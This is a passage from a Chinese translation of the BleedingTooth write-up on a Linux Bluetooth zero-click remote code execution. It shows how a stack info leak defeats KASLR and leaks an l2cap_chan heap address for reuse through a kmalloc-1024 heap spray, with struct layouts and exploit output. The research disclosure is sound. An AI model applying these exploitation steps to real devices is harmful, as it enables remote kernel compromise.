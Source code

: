 现在，我们有了构造堆的方法，并为 BadKarma 攻击做好准备，因此，我们可以完全控制 `sk_filter` 指针。问题是，我们应该把它指向哪里？为了使该原语有用，我们必须将其指向一个我们可以控制其内容的内存地址。这就是 BadChoice 漏洞发挥作用的地方。这个漏洞有可能暴露内存布局，并帮助我们实现控制地址已知的内存块的目标。

如前所述，为了利用未初始化的堆栈变量 bug ，我们必须首先发送一些不同的命令，用一些有趣的数据填充堆栈帧(例如指向堆的指针或指向与 ROP 链相关的 .text 段)。然后，我们可以发送脆弱的命令来接收数据。

通过尝试一些随机的 L2CAP 命令，我们可以观察到，通过在没有任何特殊命令的情况下触发 BadChoice ，一个指向内核映像的 .text 段指针可能会泄露。此外，通过发送 `L2CAP_CONF_RSP` 并尝试提前将 A2MP 通道配置到`L2CAP_MODE_ERTM`，可能会泄露位于偏移量 0x110 的 `struct l2cap_chan` 对象的地址。该对象的大小为 792 字节，在 `kmalloc-1024 slab` 中分配。

```c
// pahole -E -C l2cap_chan --hex bluetooth.ko
struct l2cap_chan {
	...
	struct delayed_work {
		struct work_struct {
			/* typedef atomic_long_t -> atomic64_t */ struct {
				/* typedef s64 -> __s64 */ long long int counter;        /* 0x110   0x8 */
			} data; /* 0x110   0x8 */
			...
		} work; /* 0x110  0x20 */
		...
	} chan_timer; /* 0x110  0x58 */
	...
	/* size: 792, cachelines: 13, members: 87 */
	/* sum members: 774, holes: 9, sum holes: 18 */
	/* paddings: 4, sum paddings: 16 */
	/* last cacheline: 24 bytes */
};
```

这个对象属于 A2MP 通道，可以通过销毁通道来释放它。这很有用，因为它允许我们应用与 `Use-After-Free` 攻击相同的策略。

考虑以下技巧:

- 泄漏 `struct l2cap_chan` 对象的地址。
- 通过销毁 A2MP 通道释放结构体 `struct l2cap_chan` 对象。
- 重新连接 A2MP 通道并将堆原语喷洒到 `kmalloc-1024 slab` 上。
- 它可能会回收前一个 `struct  l2cap_chan` 对象的地址。

换句话说，原来属于 `struct l2cap_chan` 的地址现在可能属于我们了！同样，使用的技术是非常基础的，但在 Ubuntu 上使用 SLUB 分配器是非常可靠的。一个担忧的问题是，当重新连接 A2MP 通道时，在堆喷射回收位置之前，`struct l2cap_chan` 可能会被新的 `struct l2cap_chan` 重新占用。在这种情况下，可以使用多个连接，可以在另一个连接已经关闭的情况下继续喷射。

注意，在 `kmalloc-1024 slab` 中分配对象比 `kmalloc-128 slab` 中分配对象稍微复杂一些，因为：

- ACL MTU通常小于 1024 字节（可以通过 hciconfig 检查）。
- A2MP 通道的缺省 MTU 为 `L2CAP_A2MP_DEFAULT_MTU=670` 字节。

这两个 MTU 限制都很容易绕过。也就是说，我们可以通过将请求分片成多个 L2CAP 报文来绕过 ACL MTU ，也可以通过发送 `L2CAP_CONF_MTU` 响应并配置为 0xffff 字节来绕过 A2MP MTU 。这里，仍然不清楚为什么蓝牙规范不明确的禁止在没有发送请求的情况下解析配置响应。

让我们来试试这个技巧:

```
$ gcc -o exploit exploit.c -lbluetooth && sudo ./exploit XX:XX:XX:XX:XX:XX
[*] Opening hci device...
[*] Connecting to victim...
[+] HCI handle: 100
[*] Connecting A2MP channel...
[*] Leaking A2MP kernel stack memory...
[+] Kernel address: ffffffffad2001a4
[+] KASLR offset: 2b600000
[*] Preparing to leak l2cap_chan address...
[*] Leaking A2MP kernel stack memory...
[+] l2cap_chan address: ffff98ee5c62fc00
[*] Spraying kmalloc-1024...
```


[#]: subject: "BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution"
[#]: via: "https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html"
[#]: author: "Andy Nguyen (theflow@)"
[#]: collector: "Licae"
[#]: translator: "b1lack"
[#]: reviewer: "firmianay"
[#]: publisher: "firmianay"
[#]: url: " "
[1]: https://github.com/google/syzkaller
[2]: https://www.armis.com/research/bleedingbit
[3]: https://knobattack.com
[4]: https://www.armis.com/blueborne
[5]: https://insinuator.net/2020/04/cve-2020-0022-an-android-8-0-9-0-bluetooth-zero-click-rce-bluefrag
[6]: https://youtu.be/qPYrLRausSw
[7]: http://www.bluez.org
[8]: https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00435.html
[9]: https://github.com/google/security-research/security/advisories/GHSA-ccx2-w2r4-x649
[10]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=a2ec905d1e160a33b2e210e45ad30445ef26ce0e
[11]: htts://github.com/google/security-research/security/advisories/GHSA-7mh3-gq28-gfrq
[12]: https://github.com/google/security-research/security/advisories/GHSA-h637-c88j-47wq
[13]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=eddb7732119d53400f48a02536a84c509692faa8
[14]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=f19425641cb2572a33cb074d5e30283720bd4d22
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b176dd0ef6afcb3bca24f41d78b0d0b731ec2d08
[16]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b560a208cda0297fef6ff85bbfd58a8f0a52a543
[17]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/scripts/extract-vmlinux
[18]: https://github.com/JonathanSalwan/ROPgadget
[19]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[20]: http://www.bluez.org/development/credits
[21]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/net/bluetooth?id=f19425641cb2572a33cb074d5e30283720bd4d22
[22]: https://git.kernel.org/pub/scm/linux/kernel/git/next/linux-next.git/commit/net/bluetooth?id=2bd056f550808eaa2c34a14169c99f81ead083a7
[23]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/net/bluetooth?id=b176dd0ef6afcb3bca24f41d78b0d0b731ec2d08
[24]: https://github.com/google/syzkaller/commits?author=TheOfficialFloW
[25]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b50dc237ac04d499ad4f3a92632470a9eb844f7d
[26]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=cafd472a10ff3bccd8afd25a69f20a491cd8d7b8
[27]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=51c19bf3d5cfaa66571e4b88ba2a6f6295311101